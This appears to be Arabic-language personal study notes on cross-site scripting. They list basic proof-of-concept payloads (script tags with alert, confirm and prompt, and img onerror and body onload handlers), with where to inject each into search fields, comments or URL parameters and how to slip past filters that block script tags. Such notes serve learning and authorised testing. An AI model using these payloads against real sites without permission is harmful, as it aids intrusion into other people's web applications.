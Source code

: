 #### أ. وسوم `<script>`
{ #XSS_with_out_alret  / #XSS_Idea_for_script_tag / #XSS_Basic_psyloads }
استخدام وسم `<script>` لتنفيذ شيفرة JavaScript مباشرة.
- **الحقن**: `<script>alert('XSS')</script>`
  - **الإدخال**: أدخل في حقل بحث أو تعليق: `<script>alert('XSS')</script>`
  - **كيف يعمل**: يُنفذ تنبيه يعرض "XSS"، مؤكدًا وجود الثغرة.
  - **متى يُستخدم؟**: كاختبار أولي للتحقق من تنفيذ JavaScript.
- **الحقن**: `<script>alert(document.domain)</script>`
  - **الإدخال**: `https://example.com/search?query=<script>alert(document.domain)</script>`
  - **كيف يعمل**: يعرض النطاق (مثل `example.com`)، مؤكدًا سياق التنفيذ.
  - **متى يُستخدم؟**: للتحقق من النطاق والبيئات المعزولة.
- **الحقن**: `<script>alert(window.origin)</script>`
  - **الإدخال**: أدخل في نموذج: `<script>alert(window.origin)</script>`
  - **كيف يعمل**: يعرض أصل الصفحة (مثل `https://example.com`)، مؤكدًا السياق.
  - **متى يُستخدم؟**: لتأكيد نطاق التنفيذ.
- **الحقن**: `<script>console.log('XSS')</script>`
  - **الإدخال**: أدخل في تعليق: `<script>console.log('XSS')</script>`
  - **كيف يعمل**: يسجل "XSS" في وحدة التحكم، غير مزعج.
  - **متى يُستخدم؟**: لتأكيد التنفيذ دون تنبيهات.
- **الحقن**: `<script>debugger;</script>`
  - **الإدخال**: أدخل في حقل: `<script>debugger;</script>`
  - **كيف يعمل**: يوقف التنفيذ في أدوات المطورين، مؤكدًا تشغيل الشيفرة.
  - **متى يُستخدم؟**: لاختبار التنفيذ مع أدوات المطورين مفتوحة.
- **الحقن**: `<script>alert(1)</script>`
  - **الإدخال**: `https://example.com/search?query=<script>alert(1)</script>`
  - **كيف يعمل**: يُنفذ تنبيه رقمي بسيط لتجنب فلاتر النصوص.
  - **متى يُستخدم؟**: عند الاشتباه بوجود فلاتر تحظر النصوص.
- **الحقن**: `<script>confirm('XSS')</script>`
  - **الإدخال**: أدخل في نموذج: `<script>confirm('XSS')</script>`
  - **كيف يعمل**: يفتح نافذة تأكيد، محاكيًا تفاعل المستخدم.
  - **متى يُستخدم؟**: لاختبار بدائل `alert`.
- **الحقن**: `<script>prompt('أدخل بيانات:','XSS')</script>`
  - **الإدخال**: أدخل في تعليق: `<script>prompt('أدخل بيانات:','XSS')</script>`
  - **كيف يعمل**: يفتح نافذة إدخال، محاكيًا التقاط بيانات.
  - **متى يُستخدم؟**: لاختبار تفاعلات المستخدم.

#### ب. سمات الأحداث
{  #XSS_Idea_for_Img_tag / #XSS_Basic_psyloads / #XSS--ALL--Event--Payload  / #XSS_Idea_for_SVG_tag }
##### شرح لها ==> 
![Recording 20250509031755.m4a](attachments/Recording 20250509031755.m4a)

استخدام سمات الأحداث (مثل `onerror`, `onload`) لتشغيل JavaScript.
- **الحقن**: `<img src=x onerror=alert('XSS')>`
  - **الإدخال**: أدخل في حقل تعليق: `<img src=x onerror=alert('XSS')>`
  - **كيف يعمل**: يُنفذ التنبيه عند فشل تحميل الصورة.
  - **متى يُستخدم؟**: لتجاوز فلاتر تحظر `<script>`.
- **الحقن**: `<img src=x onerror=alert(document.domain)>`
  - **الإدخال**: `https://example.com/search?query=<img src=x onerror=alert(document.domain)>`
  - **كيف يعمل**: يعرض النطاق عند فشل تحميل الصورة.
  - **متى يُستخدم؟**: لتأكيد السياق والنطاق.
- **الحقن**: `<img src=x onerror=console.log('XSS')>`
  - **الإدخال**: أدخل في نموذج: `<img src=x onerror=console.log('XSS')>`
  - **كيف يعمل**: يسجل "XSS" في وحدة التحكم عند فشل الصورة.
  - **متى يُستخدم؟**: لتأكيد التنفيذ دون تنبيه.
- **الحقن**: `<body onload=alert('XSS')>`
  - **الإدخال**: أدخل في حقل يتحكم في `<body>`: `<body onload=alert('XSS')>`
  - **كيف يعمل**: يُنفذ التنبيه عند تحميل الصفحة.
  - **متى يُستخدم؟**: إذا كنت تتحكم في وسم `<body>`.